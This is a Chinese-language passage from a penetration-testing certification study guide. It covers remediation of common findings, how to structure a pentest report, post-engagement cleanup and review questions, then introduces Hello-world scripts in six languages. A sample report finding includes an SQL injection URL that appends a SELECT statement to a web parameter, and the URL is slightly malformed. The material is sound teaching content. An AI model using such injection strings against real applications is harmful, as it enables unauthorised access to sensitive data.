重新排序渗透测试的目标是可以接受的活动。偏离原计划完全没问题，但这种重新排序需要利益相关者的投入和同意。请记住，当您最初开展渗透测试时，您已就接触规则和测试优先级征得了许多利益相关者的同意。如果您希望更改这些规则或优先级，则应在单方面更改渗透测试参数之前，先征得同一组利益相关者的同意。

## 推荐缓解策略

在您完成渗透测试的过程中，您已经开发了最终报告中需要包含的大部分材料。但是，在您完成文档之前，仍有一个极其重要的步骤：推荐缓解策略。

请记住，渗透测试的整个目的是发现组织安全态势中的弱点，以便予以纠正。成功进入组织计算环境的渗透测试人员比任何人都更详细地了解他们利用的缺陷。这使得渗透测试人员独特地适合推荐修复这些缺陷的方法。他们只需问自己一个问题：什么控制措施会阻止我执行使我能够访问该系统的活动？

安全专业人员通常会迅速转向技术解决方案，但渗透测试人员应考虑他们发现的任何缺陷的所有潜在补救措施。这些措施分为四类：

*   `Technical controls` 对许多安全威胁提供有效的防御。例如，组织可能会实施电子邮件内容过滤，以阻止看似来自内部来源但未经适当身份验证的入站消息。他们还可以过滤包含高风险关键字或来自已知恶意来源的消息。常见的技术控制措施包括系统加固、用户输入清理、查询参数化、多因素身份验证、密码加密、补丁管理、加密密钥轮换、证书和密钥管理以及网络分段。


### 管理控制

管理控制是旨在改进安全性的流程驱动型工作。常见的管理控制包括使用基于角色的访问控制系统、实施安全软件开发生命周期、强制执行政策和程序，以及最低密码要求。

### 操作控制

操作控制是通过实施标准程序来改进人员安全性的做法。常见的操作控制包括工作轮换、登录时间限制、强制休假和用户培训。

### 物理控制

物理控制防止入侵者物理访问设施。常用的物理控制包括使用访问控制前室（也称为人陷阱）、生物识别控制和视频监控系统。

事实上，针对安全问题的强大纵深防御解决方案通常包括来自多个类别的重叠控制。例如，试图解决欺诈性电汇请求风险的组织可能会选择同时实施员工意识宣传活动、电汇的新业务流程以及电子邮件内容过滤，以有效降低此风险。

让我们来看看渗透测试期间可能出现的六种常见发现，以及针对每种发现的常用缓解策略：

* 共享本地管理员凭据
* 弱密码复杂度
* 明文密码
* 未启用多因素身份验证
* SQL 注入
* 不必要的开放服务

本章接下来的六个部分将详细讨论每个发现。

### 发现：共享本地管理员凭据

共享账户几乎总是个坏主意。当多个个人共享账户密码时，组织将不可避免地面临缺乏问责制的问题。任何使用共享账户采取行动的人都可以事后否认责任，并可信地声称可能是其他有权访问该账户的人执行了相关活动。

共享管理员账户对组织构成的风险甚至大于共享用户账户，因为它们拥有更高的权限。然而，操作系统和应用程序的设计通常需要使用内置管理员账户，该账户自动拥有超级用户权限。IT 团队通常会为所有这些账户使用单个默认密码以简化管理。渗透测试人员和攻击者都知道这一点，并经常将这些账户作为攻击目标。

幸运的是，有解决方案可以解决这个问题。组织应随机化管理员账户的密码，将其设置为每个系统上唯一的强大复杂密码。然后，他们可以使用密码管理工具来跟踪所有这些密码。

在理想情况下，没有人应该知道这些密码。它们可以通过密码管理工具用于紧急使用，但该工具应以一种方式实现，即管理员可以使用密码获得对系统的紧急访问权限，而无需亲自了解密码。此外，该工具应在密码使用或披露后立即将其更改为新的随机复杂值。

### 发现：弱密码复杂度

令人惊讶的是，许多组织仍然成为利用用户创建弱密码能力的攻击的受害者。不使用复杂性要求的密码容易受到暴力破解攻击，无论是针对活动系统，还是针对包含哈希密码的被盗文件。

修复此漏洞很简单。依赖密码进行身份验证的组织应设置技术策略，规定密码长度和组成的最低密码要求。任何时候，当用户被提供设置或更改密码的功能时，该密码都应通过密码过滤器，以验证其是否符合组织当前的复杂性要求。

### 发现：明文密码

渗透测试期间经常出现的另一个常见密码相关安全问题是在服务器上以明文形式存储密码。当组织有一个允许用户创建受密码保护的账户的网站时，通常会发生这种情况。为了实现方便，开发人员可能只是将这些密码写入文件或数据库，这些位置很容易访问。这种方法的缺点是，密码也很容易被获得系统访问权限的攻击者访问。

你可能会想，这有什么大不了的——毕竟，攻击者此时已经攻破了系统。这是事实，但真正的风险在于，用户是习惯的生物，他们出于方便会在多个系统和域中重复使用相同的密码。从网站密码文件中窃取的用户密码，可能与保护用户电子邮件账户中存储的敏感信息或保护其银行账户的密码相同。

解决此问题的方法是始终以加密或哈希形式存储密码。这可以防止获得服务器访问权限的攻击者轻松访问该服务器上存储的所有密码。

### 发现：未启用多因素身份验证

我们迄今讨论过的两个常见发现都围绕着组织可能以不安全方式实施密码身份验证的方式。然而，仅仅依赖密码往往就构成了严重的安全风险。密码是基于知识的身份验证机制，因此，可能很容易被他人获取。

寻求保护敏感信息和关键资源的组织应针对这些情况实施多因素身份验证。多因素身份验证实现结合了来自不同身份验证类别（或因素）的两个或多个身份验证机制。这些包括以下类别：

* **你知道的东西** 基于知识的身份验证方法依赖于个人记忆并对其他方保密的某个事实。此类别包括密码、PIN 码和安全问题的答案。

* **你持有的东西** 实物也可用作身份验证机制。这些可能包括挂在钥匙扣上生成一次性密码（必须在登录时使用）的身份验证令牌。其他物理方法包括使用智能手机应用程序来请求确认登录请求，例如 图 11.1 中显示的 Duo 应用程序。


图 11.1 基于智能手机的多因素身份验证

* **你是谁** 生物识别身份验证技术测量个人身体的某些属性。生物识别方法包括指纹扫描、声音印分析和面部识别。

多因素身份验证系统必须结合来自两个不同类别的因素。例如，使用面部识别和 PIN 码的身份验证系统结合了“你是谁”因素和“你知道的东西”因素，以实现多因素身份验证。同样，多因素系统可能会将密码（你知道的东西）与智能手机应用程序（你持有的东西）相结合。结合来自同一因素的两种技术（例如密码和 PIN 码）的方法不符合多因素身份验证的资格。

### 发现：SQL 注入

SQL 注入漏洞存在于许多动态 Web 应用程序中，是渗透测试报告中最常见的发现之一。这些漏洞尤其重要，需要修复，因为它们通常允许攻击者读取和/或修改支持 Web 应用程序的数据库的全部内容。


CompTIA 建议采用两种技术来修复 SQL 注入漏洞：清理用户输入（也称为输入验证）和参数化查询。我们在“利用注入漏洞”一节中详细讨论了 SQL 注入漏洞以及这些修复策略，该节位于 第 5 章，“分析漏洞扫描”。

### 发现：不必要的开放服务

渗透测试人员经常发现管理员甚至不知道存在于服务器上运行的服务。这种情况可能发生在安装和配置过程中创建了不必要的服务，或者之前使用的服务不再需要但没有人禁用它们时。这些不必要的服务构成安全风险，因为它们增加了攻击面，为攻击者提供了额外的利用系统途径。它们还可能在系统管理员的关注之外运行，导致其变得危险地过时且未打补丁。

解决不必要服务的方法是系统加固。在最初配置系统时，管理员应分析设备上的所有开放服务，并关闭服务器正常运行不需要的任何服务。他们应定期重复此过程，并根据业务需求变化重新配置系统。

## 编写渗透测试报告

在接近渗透测试结束时，重要的是通过书面报告记录您的工作，包括您的发现和建议的修复技术。此报告为管理层提供修复路线图，并作为渗透测试的重要成果。如果需要满足监管要求，它还可以作为测试已完成的文档。让我们来看看一些报告编写和处理的最佳实践。

### 结构化书面报告

在设计渗透测试报告时，没有任何需要遵循的通用模板，但您可以选择使用组织提供的模板。无论是否从模板开始，将报告结构化为几个重要部分都是良好的做法。渗透测试报告的一种常见结构包括以下部分，按顺序排列：

*   执行摘要

*   范围详情

*   方法论

*   发现和修复

*   结论

*   附录

让我们来看看这些报告部分中的每一个。

#### 执行摘要

执行摘要是报告中毫无疑问最重要的部分。它通常是许多人唯一阅读的部分，应以清晰易懂的方式撰写，以便非专业人士能够理解报告的所有重要结论。

此部分的标题也描述了受众；它是为 C 级高管撰写的。这些人不一定是技术人员。执行摘要通常会与高级领导、董事会成员和第三方利益相关者共享，他们很忙且缺乏技术知识。在撰写执行摘要时请记住这一点。这不是深入探讨渗透测试方法论技术细节的地方。请用通俗易懂的语言解释您发现了什么，并用高管能够理解的术语描述对业务的风险。

保持执行摘要简洁。一些顾问坚持执行摘要应为单页以确保简洁。这可能有点过于限制，但将该部分控制在几页以内是个好主意。执行摘要绝不是用冗余的词语和描述来增加内容的地方。直接切入主题。

另一个重要提示：执行摘要可能是书面报告中出现的第一部分，但它应该是您撰写的最后一部分。创建渗透测试报告的其余部分有助于您最终确定发现、制定修复建议，并提供背景信息。一旦完成该过程并完成报告的其余部分，您就拥有了为高管受众准备简洁摘要所需的知识。

#### 范围详情

在 第 2 章，“规划和界定渗透测试范围”中，我们讨论了明确界定渗透测试范围的重要性。报告的这一部分是您记录该范围以供历史参考的机会。您可以从工作说明书中的范围陈述开始，然后通过记录渗透测试过程中双方共同同意的任何范围变更来结束。

#### 方法论和范围详情

报告的方法论部分是您深入探讨技术细节的机会。解释您执行的测试类型、使用的工具以及所做的观察。此部分报告的受众是将审查您的结果并根据您的发现采取行动的技术人员和开发人员。您希望分享足够的信息，让他们对测试质量充满信心，并深入了解您的工作方法。理想情况下，熟练的安全专业人员应该能够拿起您的报告，阅读方法论部分，并使用它来复现您的结果。将其视为您参与项目的攻击叙述。熟练的渗透测试人员应该能够阅读此部分并复现您的结果。

虽然您的方法论部分应该深入技术细节，但不建议在此部分包含冗长的代码清单、扫描报告或其他繁琐的结果。您仍然希望报告易于阅读，没有什么比一大段代码更能让人立刻放下报告了。如果这些元素对您的报告很重要，请考虑将它们放在附录中，然后在报告正文中简单引用附录。如果读者感兴趣，他们就会知道去哪里找到更详细的信息，但这些信息不会出现在报告中间拖慢他们的进度。

#### 发现和修复

发现和修复部分是渗透测试报告的核心内容。这是您描述在渗透测试中发现的安全问题，并提供组织如何修复这些问题以降低网络安全风险建议的地方。

例如，发现 SQL 注入漏洞的渗透测试报告可能在发现和修复部分包含以下信息：

> **严重：SQL 注入漏洞允许从业务关键数据库中窃取敏感信息。** 位于 10.15.1.1 的 Web 服务器包含一个名为 directory.asp 的应用程序，该应用程序在 firstName 变量中存在 SQL 注入漏洞。利用此漏洞的用户可以以管理员权限访问后端数据库实例“CorporateResources”。测试人员演示了利用此漏洞访问员工社会安全号码、机密销售数据和员工薪资的能力。由于 Web 服务器无法从外部访问，与该漏洞相关的风险在某种程度上得到了缓解，但它对内部攻击构成严重风险。

> 要复现此风险，请访问以下 URL：

> ```
> https://10.15.1.1/directory.asp?firstName=test';SELECT%20*%20FROM&20Employees'‐‐
> ```

> 我们建议 MCDS 立即通过在目录 ASP 应用程序的 firstName 变量上强制执行输入验证策略来修复此漏洞。

发现部分还应包括每个发现所引起的风险等级信息。这应包括以下内容：

*   风险等级（源自适当的参考框架）


*   风险优先级排序（基于风险的可能性和影响）

*   业务影响分析（基于组织的特定战略和运营情况）

#### 结论

结论是你为读者将内容整理成一个完整包的机会。你应该总结你的结论，并为未来的工作提出建议。例如，如果你的渗透测试范围排除了 Web 应用程序测试，你可能会建议在未来的项目中进行该测试。

你也可能希望在结论中包含指标和度量，这些指标和度量有助于将报告中呈现的信息置于组织或类似组织的同行群体的背景下，或置于全球背景中。每年进行大量扫描的渗透测试提供商通常会对这些信息进行标准化处理，以生成一个总结组织风险水平的评分。

结论也是将报告中识别的风险评级与组织的风险偏好进行比较的好地方。请记住，期望任何组织都会解决渗透测试或其他安全评估中出现的每一个风险是不合理的。相反，管理层必须根据每个风险评级的性质和组织的风险承受能力，就将有限的修复资源应用在哪里做出基于风险的决策。可能威胁一个组织生存的风险，可能对在不同业务环境下运营的另一个组织来说是可接受的风险。

最后，结论应识别测试期间发现的共同主题或根本原因，这些可能有助于组织改进其安全实践。这可能包括常见漏洞、未遵循的最佳实践以及类似的观察结果。

#### 附录

前面我们提到，报告的主体部分不是包含冗长代码清单、扫描报告或其他繁琐结果的合适位置。如果你发现包含此类信息有帮助，附录或一组附录是合适的做法。报告的其他部分可能会引用一个或多个附录，有兴趣了解更多细节的读者可以查看那里的信息。

### 报告的安全处理与处置

渗透测试报告通常包含关于组织的极其敏感的信息。报告的方法论部分包含测试人员为破坏组织安全所遵循的详细步骤。这些说明可能成为寻求访问组织的攻击者的路线图！发现一份渗透测试报告的副本，对进行组织侦察的攻击者来说是终极胜利！

因此，任何有权访问渗透测试报告的人都必须安全地处理它。报告应仅以加密形式传输和存储，纸质副本应妥善保管。当报告不再必要时，应安全销毁报告的数字和纸质副本。

渗透测试协议应明确规定报告的存储时间。尽管客户可以选择无限期保留报告副本，但渗透测试人员应仅保留报告和相关记录足够长的时间，以回答客户的任何问题。当这段时间到期后，应安全删除报告。

## 收尾项目

交付渗透测试报告无疑是项目的一个重要里程碑，客户通常将其视为项目的结束。然而，渗透测试人员的工作并不会仅仅因为他们交付了报告就结束。测试人员在结束项目之前必须完成重要的交付报告后的活动。

### 项目后清理

渗透测试人员在穿梭于客户网络时会使用各种工具和技术。这些活动往往会留下残留物，其存在本身可能会危及安全。在项目期间，测试人员应清楚记录对系统所做的任何更改，并在测试结束时重新审查该文档，以确保完全移除其工作的任何痕迹。

CompTIA 强调了三项重要的项目后清理活动：

*   移除渗透测试期间在系统上安装的 Shell

*   移除测试期间安装的测试人员创建的账户、凭据或后门

*   移除渗透测试期间安装的任何工具

当然，这三项操作只是一个起点。测试人员在进行项目后清理时应遵循的基本原则是，他们应将系统恢复到测试前的原始状态。

此规则的例外情况是，测试人员可能已进行紧急更改以协助修复关键漏洞。如果发生这种情况，测试人员应与管理层协调并确定适当的措施。

### 客户验收

你应该获得客户对交付成果的正式验收。这可能只是对最终报告的书面确认，但更通常包括一次面对面的会议，测试人员在会议上与业务和技术领导讨论项目结果，并回答可能出现的任何问题。

客户验收标志着客户项目的结束，是测试人员成功完成约定工作范围的正式协议。

### 经验教训

无论团队每年进行一次渗透测试还是每周进行多次，从过程本身总是有东西可以学习。经验教训会议是团队在没有客户在场的情况下聚在一起讨论测试过程和结果的机会。团队成员应自由地谈论测试，并提出他们可能有的任何改进建议。经验教训会议是突出测试期间使用的可能在未来项目中使用的任何创新技术的好机会。

通常，让第三方主持经验教训会议会很有帮助。这提供了一个中立的主持人，他可以从纯粹客观的角度看待结果，而不与工作产生依恋。主持人还可以帮助引出对团队来说可能显而易见，但对审查经验教训会议结果的外部读者有帮助的细节。

### 后续行动/重新测试

在某些情况下，客户可能希望团队在渗透测试项目结束后进行后续行动。这可能包括使用不同于原始测试范围中包含的工具或资源进行额外测试。后续行动还可能包括重新测试原始测试中存在漏洞的资源，以验证修复活动是否有效。

后续行动的性质可能有所不同，测试人员应就涉及的正式程度做出判断。如果客户请求快速重新测试，且该测试属于原始工作范围和接触规则，测试人员可能选择免费进行重新测试。但是，如果客户请求重大工作或对范围或接触规则进行更改，测试人员可能要求客户经历一个新的规划过程。

### 调查结果证明书


如果客户是作为监管或合同承诺的一部分进行测试，他们可能会要求测试人员准备一份关于其工作和发现的正式证明书。证明书中包含的详细程度将取决于请求的目的，并应由客户和测试人员协商确定。这可能只是一封简单的信函，确认客户聘请了测试人员进行渗透测试，也可能要求列出高风险发现，并确认测试后发现已成功修复。

### 数据保留与销毁

渗透测试项目的工作说明书应包含关于数据保留和销毁的明确说明。项目结束时，测试人员应仔细遵守这些要求。如果客户希望保留任何数据，测试人员应按照规定的方式仔细保存该数据。否则，测试中剩余且不再需要的任何数据都应及时安全地销毁。

## 摘要

沟通对于任何渗透测试的有效执行至关重要。测试人员和客户必须在测试的规划阶段制定一份清晰的工作说明书，并在整个项目期间继续有效沟通。测试的交互规则应定义一致的沟通路径，并确定将进行定期沟通的里程碑，以及紧急沟通的触发条件。

渗透测试报告是最终的工作成果，作为测试的证据，向管理层传达方法论、发现、建议的修复措施和结论。报告还应包含一份用通俗语言编写的执行摘要，使非技术领导者能够理解，帮助他们了解测试的目的和结果以及组织面临的风险。

## 考试要点

**了解渗透测试人员应与管理层建立定期的沟通模式。** 这种沟通应包括定期会议，测试人员在会议上分享进度，并在适当时分享中期结果。沟通流程还应定义可能需要立即通知管理层的触发条件。常见的沟通触发条件包括识别关键发现和发现先前被攻破的迹象。

**能够详细说明渗透测试报告中关于建议的缓解策略应包含的内容。** 测试人员应定义修复策略，包括旨在纠正或缓解渗透测试中发现的风险的人员、流程和技术控制措施。这为管理层在优先处理风险修复活动时提供了一条路线图。

**了解常见发现的适当修复活动。** 共享账户可以通过使用随机凭据和本地管理员密码解决方案来修复。弱密码可以通过使用最低密码要求和密码过滤器来修复。明文密码应加密或哈希。未使用多因素身份验证的组织应采用额外的身份验证方法。SQL 注入漏洞可以通过使用输入验证和参数化查询来修复。不必要的开放服务应作为系统加固活动的一部分关闭。

**能够描述渗透测试报告的目的。** 执行摘要对测试及其发现进行了简要描述。发现和修复部分提供了测试结果的技术细节以及建议的缓解措施。报告的方法论部分应为受过教育的专业人士提供复制测试结果所需的信息。最后，报告结论将报告中提出的信息联系起来，并将其置于组织风险偏好的背景下。项目后活动确保所有未尽事宜得到处理。

在渗透测试结束时，测试人员应进行项目后清理以清除其活动痕迹。他们应确保已获得客户对其结果的正式接受，并进行经验教训会议。

## 实验练习

### 活动 11.1：修复策略

在本节和下一节练习中，您将完成对 MCDS, LLC 渗透测试的工作，该测试您在本书的场景和实验练习中一直在进行。

通过回顾每章的场景以及实验练习的结果来审查渗透测试结果。根据测试结果，对您的发现做出简洁的列表。为每个发现确定一个或多个修复策略。请务必指明每个策略是否代表人员、流程和/或技术控制。根据每个操作预期提供的风险降低程度，对建议的修复操作进行优先级排序。

### 活动 11.2：报告编写

根据 MCDS 渗透测试的发现创建一份报告。您的报告应包含以下部分：

*   执行摘要
*   范围详情
*   方法论
*   发现和修复
*   结论
*   附录

请记住，渗透测试是针对 MCDS 发生的网络安全事件而进行的。包括您在测试过程中使用的取证测试工具和其他技术的结果。

## 复习问题

您可以在附录中找到答案。

1.  Tom 最近为一家受 PCI DSS 监管的公司进行了渗透测试。测试两个月后，客户要求一份记录测试结果的信函，用于其合规文件。客户请求的是哪种类型的报告？

    1.  执行摘要
    2.  渗透测试报告
    3.  书面证词
    4.  发现证明书

2.  Wendy 正在审查渗透测试结果，并了解到她的组织在所有系统上都使用相同的本地管理员密码。以下哪种工具可以帮助她解决这个问题？

    1.  LAPS
    2.  Nmap
    3.  Nessus
    4.  Metasploit

3.  以下哪一项不是渗透测试的正常沟通触发条件？

    1.  发现关键发现
    2.  测试阶段完成
    3.  记录新测试
    4.  识别先前被攻破的情况

4.  Gary 对一个系统运行了 Nmap 扫描，发现它正在监听端口 22，尽管它不应该接受 SSH 连接。他应该报告什么发现？

    1.  共享本地管理员凭据
    2.  不必要的开放服务
    3.  SQL 注入漏洞
    4.  未使用多因素身份验证

5.  Tom 的组织目前使用基于密码的身份验证，并希望转向多因素身份验证。以下哪一项是可接受的第二因素？

    1.  安全问题
    2.  PIN
    3.  智能手机应用程序
    4.  密码短语

6.  以下哪一项不适合包含在渗透测试报告的执行摘要中？

    1.  发现描述
    2.  风险声明
    3.  通俗语言
    4.  技术细节

7.  以下哪项活动通常不在项目后清理阶段执行？

    1.  漏洞修复
    2.  删除 Shell
    3.  删除测试人员创建的凭据
    4.  删除工具

8.  谁是渗透测试后主持经验教训会议的最有效人选？

    1.  团队领导
    2.  CIO
    3.  第三方
    4.  客户


9.  以下哪一项不是可能在渗透测试中发现问题后实施以补救的操作控制示例？

    1.  工作轮换

    2.  时间登录限制

    3.  网络分段

    4.  用户培训

10.  以下哪种技术不是针对 SQL 注入漏洞的适当补救活动？

     1.  网络防火墙

     2.  输入清理

     3.  输入验证

     4.  参数化查询

11.  系统强化活动应在何时进行？

     1.  在系统最初构建时

     2.  在系统最初构建时以及其生命周期内定期进行

     3.  在系统最初构建时以及在系统停用时进行

     4.  在系统最初构建时、其生命周期内定期进行以及在系统停用时进行

12.  生物识别身份验证技术属于哪种多因素身份验证类别？

     1.  你知道的东西

     2.  你是谁

     3.  你所在的位置

     4.  你拥有的东西

WileyPRE

# 第 12 章

## 渗透测试脚本编写

渗透测试充满了繁琐的工作。从扫描大型网络到对 Web 应用程序凭据进行暴力破解测试，渗透测试人员通常使用极其重复的过程来实现目标。如果手动完成，这项工作将非常耗时且令人厌烦，几乎不可能执行。幸运的是，脚本语言提供了一种自动化这些重复任务的方法。

渗透测试人员不需要成为软件工程师。一般来说，渗透测试人员不编写极其冗长的代码，也不开发供许多人使用的应用程序。渗透测试人员应掌握的主要开发技能是能够阅读用多种常见语言编写的相当简单的脚本，并根据自己的独特需求对其进行调整。这就是我们将在本章中探讨的内容。

### 脚本编写与渗透测试

让我们先来看看渗透测试人员常用的四种脚本语言。你将希望在面对的每个渗透测试任务中，通过考虑几个重要标准来选择合适的语言：

*   组织内部的标准

*   将运行你创建的脚本的设备的操作系统

*   支持你工作的库和包的可用性

*   个人偏好

渗透测试中最常用的六种语言是 `Bash`、`PowerShell`、`Ruby`、`Python`、`Perl` 和 `JavaScript`。我们将通过在每种语言中编写一个简单的“Hello, world！”脚本来开始探索这些语言。“Hello, world！”是大多数开发人员在探索新语言时编写的第一个脚本。运行时，它只是在屏幕上打印该短语。这是一个有用的练习，可以确保你已正确设置并运行。

### Bash

*Bourne‐again shell (`Bash`)* 是一种常用于 Linux 和 Mac 系统的脚本语言。它通常是这些系统命令行上可用的默认环境。作为一种 *Unix shell*，`Bash` 为管理员提供命令行访问以处理系统资源。管理员还可以编写包含常用 `Bash` 命令的文本文件以允许其重复使用。这些文本文件也称为 *`Bash` 脚本*。

`Bash` 脚本的第一行指示本地系统上 `Bash` shell 的路径。shell 通常位于 `/bin/` 目录中，因此 `Bash` 脚本的第一行应读取：

```
#!/bin/bash
```

这只是告诉操作系统，当有人尝试执行该文件时，应使用 `Bash` shell 来执行其中包含的命令。在这一行之后，你可以开始编写 `Bash` 脚本的代码。在我们的示例中，我们想打印“Hello, world！”一词。我们可以使用 `echo` 命令来实现：

```
echo "Hello, world!"
```

使用你选择的文本编辑器，你可以创建包含以下两行的简单脚本：

```
#!/bin/bash
echo "Hello, world!"
```

按照惯例，你应该将 `Bash` 脚本保存为 `.sh` 文件扩展名。例如，我们可以将此脚本保存为 `hello.sh`。在运行脚本之前，你需要告诉操作系统它是一个可执行文件。你可以使用以下命令：

```
chmod u+x hello.sh
```

在此示例中，`chmod` 命令更改 `hello.sh` 文件的权限；`u+x` 参数表示为文件所有者添加执行权限。完成后，你可以使用以下命令执行脚本：

```
./hello.sh
```

然后你将看到以下输出：

```
Hello, world!
```

这就是在 `Bash` shell 中编写简单脚本的全部内容。

### PowerShell

*`PowerShell`* (`PS`) 是另一种命令 shell 脚本语言，与 `Bash` 非常相似。它最初由 Microsoft 为 Windows 系统管理员设计，现在是一种开源工具，适用于 Windows、Mac 和 Linux 平台。但是，考虑到 Mac 和 Linux 系统上可用的其他 Unix shell，`PowerShell` 仍然通常与 Windows 操作系统相关联。在非 Windows 系统上运行 `PowerShell` 的最常见用例是代码兼容性。

你会发现 `PowerShell` 预装在 Windows 系统上。要在 `PowerShell` 中创建我们的“Hello, world！”脚本，你只需一行代码：

```
Write-Host "Hello, world!"
```

使用你选择的文本编辑器将脚本保存在系统上的一个目录中。按照惯例，开发人员使用 `.ps1` 扩展名命名 `PowerShell` 脚本。

保存脚本后，你可以尝试使用以下命令运行它：

```
.\hello.ps1
```

如果你以前在系统上没有使用过 `PowerShell` 脚本，当你尝试执行第一个脚本时，你可能会看到一条错误消息，内容如下：

```
.\hello.ps1 : File C:\Users\Administrator\hello.ps1 cannot be loaded. The file C:\Users\Administrator\hello.ps1 is not digitally signed. You cannot run this script on the current system. For more information about running scripts and setting execution policy, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
 
At line:1 char:1
 
+ .\hello.ps1
 
+ ~~~~~~~~~~~
 
+ CategoryInfo          : SecurityError: (:) [], PSSecurityException
 
+ FullyQualifiedErrorId : UnauthorizedAccess
 
```

此错误发生是因为 Windows 系统默认配置为阻止执行 `PowerShell` 脚本。你需要更改 `PowerShell` 执行策略以允许其运行。有五种可能的策略：

*   `Restricted` 是默认的 `PowerShell` 执行策略，它阻止所有 `PowerShell` 脚本的使用。

*   `AllSigned` 要求你运行的任何 `PowerShell` 脚本都由受信任的发布者签名。

*   `RemoteSigned` 允许执行你在本地计算机上编写的任何 `PowerShell` 脚本，但要求从 Internet 下载的脚本由受信任的发布者签名。

*   `Unrestricted` 允许执行任何 `PowerShell` 脚本，但在允许你运行从 Internet 下载的脚本之前会提示你确认请求。

*   `Bypass` 允许执行任何 `PowerShell` 脚本，并且不会对从 Internet 下载的脚本生成任何警告。

你不是受信任的发布者，因此你应该将执行策略设置为 `RemoteSigned`，以允许你运行自己的脚本，但仍要求下载的脚本来自受信任的发布者。你可以使用以下命令更改执行策略：

```
Set-ExecutionPolicy RemoteSigned
```

请注意，你必须以管理员身份启动 `PowerShell` 才能更改执行策略。更正后，再次尝试运行脚本，你应该看到以下输出：

```
Hello, world!
```

你现在已经在 `PowerShell` 中编写了“Hello, world!”。两种语言已完成，还有两种！

### Ruby


Ruby 是一种通用编程语言，常被渗透测试人员用于创建可重用代码。作为一种编程语言，Ruby 在灵活性和实用性方面与 Bash 和 PowerShell 不同。开发人员可以在 Ruby 中编写几乎任何所需的代码，而 PowerShell 和 Bash 脚本大多局限于执行操作系统命令。虽然可以在命令行脚本语言中编写复杂脚本，但在通用编程语言中这样做通常要容易得多。

与本书中涵盖的所有语言一样，Ruby 是一种解释型语言，开发人员编写的脚本在执行时被求值。其他语言，如 C++ 和 Java，是编译型语言。在编译型语言中，开发人员编写源代码，然后必须通过编译器来创建可执行文件。

我们可以使用一行代码在 Ruby 中编写“Hello, world！”脚本：

```
puts "Hello, world!"
```

与 Bash 中的 `echo` 命令和 PowerShell 中的 `Write-Host` 命令类似，Ruby 中的 `puts` 命令将输出打印到屏幕上。传统上将 Ruby 脚本保存为 `.rb` 文件扩展名。将此单行 Ruby 脚本保存为 `hello.rb` 后，可以使用以下命令执行它：

```
ruby ./hello.rb
```

你将看到熟悉的输出：

```
Hello, world!
```

三种语言已介绍完毕。让我们将注意力转向 PenTest+ 课程涵盖的下一种语言，Python。

### Python

Python 可以说是当今开发人员使用最广泛的编程语言。与 Ruby 一样，Python 是一种通用编程语言，也是一种解释型语言。

我们可以使用 `print` 命令在 Python 中打印输出。以下是创建“Hello, world！”脚本所需的单行代码：

```
print("Hello, world!")
```

如果将其保存为 `hello.py`，则可以使用以下命令执行它：

```
Python ./hello.py
```

最后一次，我们将看到输出：

```
Hello, world!
```

## Perl

Perl 是一种解释型编程语言，深受系统管理员欢迎，因为它与操作系统功能紧密集成，使自动化管理任务变得容易。渗透测试人员也出于同样的原因喜欢它。

Perl 脚本的编写方式与 Bash 脚本类似。Perl 脚本的第一行指示本地系统上 Perl shell 的路径。shell 通常位于 `/usr/bin/` 目录中，因此脚本的第一行应为：

```
#!/usr/bin/perl
```

此行之后，即可开始编写 Perl 脚本的代码。在我们的示例中，我们只想打印“Hello, world！”一词。可以使用 `print` 命令实现：

```
print("Hello, world!\n");
```

这里应注意两点：

1. 打印字符串中特殊字符 `\n` 的使用。Perl 默认不会添加新行，此字符表示行已完成。
2. 命令末尾使用分号。每个 Perl 命令都应以分号结尾。如果不包含分号，Perl 会假设脚本中的下一行是上一行的延续，可能导致错误。

使用你选择的文本编辑器，可以创建包含以下两行的简单脚本：

```
#!/usr/bin/perl
print("Hello, world!\n");
```

按照惯例，应将 Perl 脚本保存为 `.pl` 文件扩展名。例如，我们可以将此脚本保存为 `hello.pl`。保存文件后，可以使用以下命令执行它：

```
perl hello.pl
```

然后将看到以下输出：

```
Hello, world!
```

在 Perl 中编写简单脚本就这么简单！

## JavaScript

JavaScript 是一种简单的解释型语言，内置于 Web 浏览器中，因此是攻击的常见向量。渗透测试人员应熟悉这种语言，因为他们可能使用它来启动基于浏览器的漏洞利用。

我们将通过将 JavaScript 代码嵌入 HTML 文档来编写和测试 JavaScript 代码。以下是设置用于包含 JavaScript 但尚未包含任何 JavaScript 代码的 HTML 文档框架：

```
<!DOCTYPE html>
<html>
<head>

    <title>JavaScript Coding Example</title>
    <script>
 
    </script>
</head>
<body>
</body>
</html>
```

你可能已经熟悉其中一些 HTML 标签。标签以括在 `<>` 括号中的关键字开始，例如 `<title>` 标签。它们以相同的关键字结束，前面加上正斜杠（`/`），同样括在 `<>` 括号中。例如，`<title>` 标签由 `</title>` 标签结束。开头和结束标签之间包含的所有内容都是该 HTML 功能的内容。因此，在此脚本中，文档的标题是“JavaScript Coding Example”。

`<script>` 和 `</script>` 标签括起了可以插入 JavaScript 代码的区域，这些代码将在页面加载时在浏览器中执行。我们可以使用以下代码编写 Hello, World！脚本：

```
alert('Hello, World!')
```

`alert()` 函数告诉浏览器向用户显示包含提供文本的对话框。将此代码插入 HTML 文档后，我们得到：

```
<!DOCTYPE html>
<html>
<head>
    <title>JavaScript Coding Example</title>
    <script>
         alert('Hello, World!')
    </script>
</head>
<body>
</body>
</html>
```

如果在文本编辑器中创建此文档并将其保存为 `hello.html`，则可以在浏览器中加载文档并查看脚本执行。Figure 12.1 显示了此代码在 Chrome 浏览器中执行的示例。

现在你已在六种编程语言中各创建了一个基本脚本，我们可以继续学习一些更高级的主题。


FIGURE 12.1 Executing Hello, World! using JavaScript in the Chrome browser

## Variables, Arrays, and Substitutions

变量是任何脚本语言中的核心概念之一。它们允许开发人员使用描述性名称在内存中存储信息，然后在脚本中稍后引用该信息。变量可以存储整数、小数、布尔（真/假）值、日期和时间、字符串以及几乎任何其他你可能需要的信息类型。

让我们看看如何在伪代码中使用变量。假设我们有一家小店，通常以 2 美元出售纸杯蛋糕，但在星期二提供 50% 的折扣。我们可能需要一个脚本来计算星期二的价格，如下所示：

```
cupcake_price = 2
 
cupcake_price = cupcake_price / 2
 
print "The price of a cupcake is ", cupcake_price
```

在此脚本中，`cupcake_price` 是一个变量。脚本的第一行将该变量的值设置为 2.00。下一行将价格更改为当前值的一半。最后一行打印纸杯蛋糕的价格，星期二将为 1 美元。这是变量在实际中的一个简单示例。请记住，当执行包含变量的脚本时，脚本解释器会执行替换，使用存储在该变量内存位置中的值来代替变量名。

